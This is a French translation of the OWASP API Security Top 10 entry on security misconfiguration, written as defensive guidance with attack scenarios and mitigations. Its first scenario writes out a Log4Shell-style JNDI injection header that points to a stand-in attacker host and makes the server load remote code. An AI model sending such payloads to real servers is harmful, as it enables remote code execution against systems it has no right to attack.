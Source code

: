 # API8:2023 Security Misconfiguration

| Facteurs de menace / Vecteurs d'attaque | Faille de sécurité | Impact |
| - | - | - |
| Spécifique à l'API : Exploitabilité **Facile** | Prévalence **Courante** : Détectabilité **Facile** | Technique **Grave** : Spécifique à l'organisation |
| Les attaquants cherchent souvent à trouver des failles non corrigées, des points d'accès courants, des services fonctionnant avec des configurations par défaut non sécurisées ou des fichiers et répertoires non protégés pour obtenir un accès non autorisé ou des informations sur le système. La plupart de ces informations sont publiques et des exploits peuvent être disponibles. | La mauvaise configuration de sécurité peut se produire à n'importe quel niveau de la pile API, du réseau à l'application. Des outils automatisés sont disponibles pour détecter et exploiter des configurations incorrectes telles que des services inutiles ou des options héritées. | Les mauvaises configurations de sécurité exposent non seulement des données utilisateur sensibles, mais aussi des détails système qui peuvent conduire à la compromission complète du serveur. |

## L'API est-elle vulnérable ?

L'API peut être vulnérable si :

* La sécurisation appropriée est absente à travers n'importe quelle partie de la pile API, ou si les permissions sur les services cloud sont mal configurées
* Les derniers correctifs de sécurité sont manquants, ou si les systèmes sont obsolètes
* Des fonctionnalités inutiles sont activées (par exemple, les verbes HTTP, les fonctionnalités de journalisation)
* Il y a des divergences dans la façon dont les requêtes entrantes sont traitées par les serveurs dans la chaîne du serveur HTTP
* La sécurité du transport (TLS) est absente
* Les directives de sécurité ou de contrôle de cache ne sont pas envoyées aux clients
* Une politique Cross-Origin Resource Sharing (CORS) est manquante ou mal configurée
* Les messages d'erreur incluent des traces de pile, ou exposent d'autres informations sensibles

## Exemple de scénarios d'attaque

### Scénario #1

Un serveur back-end d'API maintient un journal d'accès écrit par un utilitaire de journalisation open-source populaire avec prise en charge de l'expansion de paramètres et des recherches JNDI (Java Naming and Directory Interface), tous deux activés par défaut. Pour chaque requête, une nouvelle entrée est écrite dans le fichier journal avec le modèle suivant : `<méthode> <version_api>/<chemin> - <code_statut>`.

Un acteur malveillant émet la requête API suivante, qui est écrite dans le fichier journal d'accès :

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

En raison de la configuration par défaut non sécurisée de l'utilitaire de journalisation et d'une politique de sortie réseau permissive, pour écrire l'entrée correspondante dans le journal d'accès, tout en développant la valeur de l'en-tête de requête `X-Api-Version`, l'utilitaire de journalisation va extraire et exécuter l'objet `Malicious.class` du serveur contrôlé à distance par l'attaquant.

### Scénario #2

Un site web de réseau social propose une fonctionnalité de "Message Direct" qui permet aux utilisateurs de garder des conversations privées. Pour récupérer de nouveaux messages pour une conversation spécifique, le site web émet la requête API suivante (l'interaction de l'utilisateur n'est pas requise) :

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Parce que la réponse de l'API ne comprend pas l'en-tête HTTP `Cache-Control`, les conversations privées sont mises en cache par le navigateur web, permettant aux acteurs malveillants de les récupérer à partir des fichiers de cache du navigateur.

## Comment s'en prémunir ?

Le cycle de vie de l'API devrait inclure :

* Un processus de durcissement reproductible menant à un déploiement rapide et facile d'un environnement correctement sécurisé
* Une tâche pour examiner et mettre à jour les configurations dans toute la pile API. L'examen devrait inclure : les fichiers d'orchestration, les composants API et les services cloud (par exemple, les autorisations de compartiment S3)
* Un processus automatisé pour évaluer en continu l'efficacité de la configuration et des paramètres dans tous les environnements

De plus :

* Assurez-vous que toutes les communications API du client vers le serveur API et tout composant en aval/amont se font sur un canal de communication chiffré (TLS), qu'il s'agisse d'une API interne ou publique.
* Soyez spécifique sur les verbes HTTP par lesquels chaque API peut être accédée : tous les autres verbes HTTP devraient être désactivés (par exemple, HEAD).
* Les API s'attendant à être accessibles depuis des clients basés sur un navigateur (par exemple, une interface WebApp) devraient, au moins :
    * implémenter une politique Cross-Origin Resource Sharing (CORS) appropriée
    * inclure les en-têtes de sécurité applicables
* Restreignez les types de contenu/format de données entrants à ceux qui répondent aux exigences commerciales/fonctionnelles.
* Assurez-vous que tous les serveurs dans la chaîne du serveur HTTP (par exemple, les équilibreurs de charge, les proxies et les proxies inverses, ainsi que les serveurs back-end) traitent les requêtes entrantes de manière uniforme pour éviter les problèmes de désynchronisation.
* Lorsque cela est applicable, définissez et appliquez tous les schémas de charge utile de réponse API, y compris les réponses d'erreur, pour empêcher les traces d'exception et d'autres informations précieuses d'être renvoyées aux attaquants.

## Références

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### Externes

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
